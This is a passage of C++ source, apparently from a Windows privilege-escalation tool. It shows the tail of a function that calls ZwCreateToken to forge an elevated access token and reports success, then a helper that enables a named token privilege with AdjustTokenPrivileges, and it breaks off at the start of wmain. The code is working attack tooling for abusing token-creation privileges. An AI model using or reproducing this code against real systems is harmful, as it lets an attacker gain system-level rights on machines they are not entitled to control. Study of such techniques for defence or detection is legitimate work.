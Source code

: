 ```c++
        &ExpirationTime,
        pTokenUser,
        pTokenGroups,
        pTokenPrivileges,
        pTokenOwner,
        pTokenPrimaryGroup,
        pTokenDefaultDacl,
        &tokenSource
    );
    if (Status != STATUS_SUCCESS)
    {
        wprintf(L"[-] ZwCreateToken Error: [0x%x].\n", Status);
        goto Clear;
    }
    wprintf(L"[*] ZwCreateToken successfully and get elevated token:\n\n");

    goto Clear;

Clear:
    if (pTokenPrivileges)
        LocalFree(pTokenPrivileges);
    if (pTokenOwner)
        LocalFree(pTokenOwner);
    if (hToken)
        CloseHandle(hToken);

    return pElevatedToken;
}

BOOL EnableTokenPrivilege(HANDLE hToken, LPCWSTR lpName)
{
    BOOL status = FALSE;
    LUID luidValue = { 0 };
    TOKEN_PRIVILEGES tokenPrivileges;

    // Get the LUID value of the privilege for the local system
    if (!LookupPrivilegeValueW(NULL, lpName, &luidValue))
    {
        wprintf(L"[-] LookupPrivilegeValue Error: [%u].\n", GetLastError());
        return status;
    }

    // Set escalation information
    tokenPrivileges.PrivilegeCount = 1;
    tokenPrivileges.Privileges[0].Luid = luidValue;
    tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

    // Elevate Process Token Access
    if (!AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, sizeof(tokenPrivileges), NULL, NULL))
    {
        wprintf(L"[-] AdjustTokenPrivileges Error: [%u].\n", GetLastError());
        return status;
    }
    else
    {
        status = TRUE;
    }
    return status;
}

int wmain(int argc, wchar_t* argv[])
{
```